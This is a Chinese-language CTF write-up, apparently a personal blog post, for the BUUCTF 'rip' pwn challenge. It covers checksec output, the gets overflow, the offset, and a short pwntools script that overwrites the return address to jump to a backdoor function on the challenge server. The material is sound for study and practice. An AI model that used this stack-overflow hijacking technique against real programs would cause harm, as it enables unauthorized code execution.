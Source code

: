 ```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf

---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### 静态分析

![rip2131](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/rip2131.png)

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

![sadad2312](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/sadad2312.png)

### 思路分析

本题没有开启PIE,可以通过采用栈溢出将原来函数的返回地址覆盖位后门函数的地址，完成程序劫持

### 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为23

### exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```
